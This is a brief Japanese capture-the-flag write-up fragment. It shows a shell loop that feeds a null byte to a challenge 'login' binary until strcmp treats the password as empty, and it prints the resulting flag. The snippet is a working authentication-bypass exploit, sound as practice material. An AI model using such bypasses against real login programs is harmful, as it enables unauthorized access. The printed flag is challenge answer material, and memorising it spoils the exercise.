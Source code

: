 ```
$ for ((i=0; i<10000; i++)) do echo -e '\00' | ./login | grep actf ; done
Enter the password: actf{if_youre_reading_this_ive_been_hacked}
```

先頭にNULLバイトが来るまで挑戦する。  
(strcmpの終了判定がNULLバイトであることを利用する)  
